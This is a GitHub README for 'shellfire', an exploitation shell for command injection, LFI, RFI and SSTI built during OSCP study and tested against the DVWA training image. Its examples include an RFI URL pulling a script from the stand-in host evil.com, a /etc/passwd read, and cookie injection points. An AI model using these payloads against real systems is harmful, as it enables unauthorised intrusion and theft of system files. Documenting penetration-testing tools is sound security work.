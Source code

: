 # shellfire

_shellfire_ is an exploitation shell which focuses on exploiting command injection vulnerabilities. This can be useful when exploiting LFI, RFI, SSTI, etc.

I originally started developing this script while working on my OSCP labs. As the capabilities grew, I thought maybe other people could find this as 
useful as I have, so I decided to open source my tool.

## Features  

- [X] Persistent named configuration for multiple targets (and sharing!)  
- [X] Plugin system  
- [X] PHP payload  
- [X] ASP payload  


## Installation  

You can use the standard Python setuptools to install this package:

```
$ python setup.py install
```

## A few useful hints

After installing, you can just call 'shellfire' from your terminal.

```
$ shellfire
[*] ShellFire v0.8
[*] Type '.help' to see available commands
>>
```

You can type `.help` at any time for a list of available commands, or append 
the command you want to know more information about to help for specific 
details. For example `.help .http`.

Let's explore how to attack a basic RFI vulnerability!

To start exploitation, you need to specify at least the URL parameter of your target. 
Something like the following should work:

```
>> .url http://example.com/?path=http://evil.com/script.php
```

Running any command now would cause your RFI to get executed on the remote target.

Let's say you want to arbitrarily control the payloads going to the path paramter. This time, we will use `{}` to specify our injection point.

```
>> .url http://example.com/?path={}
```

Now, you can just type the payload you want to send and hit enter.

```
>> /etc/passwd
```

At this point, you should have enough to exploit easy vulnerabilities. Payloads you enter on the shell will be appropriately injected and sent over to your target.

More complex vulnerabilities may require specifying additional options. 
For example, let's assume you needed to send a cookie with a session ID in 
order to exploit your target. You may want to add something like this:

```
>> .cookies { "session_id" : "123456789" }
```

We can specify injection points in cookies too.

```
>> .cookies { "session_id" : "123456789", "vuln_param": "{}" }
```

Additional options, and information on how to use them, can be discovered by 
using the `.help` option in the shell.

Thanks to Offensive-Security for inspiring the creation of this utility.

Please use this tool for good.

Happy hacking!


## Testing  

Testing is currently being done against the [dvwa docker image](https://hub.docker.com/r/vulnerables/web-dvwa/).
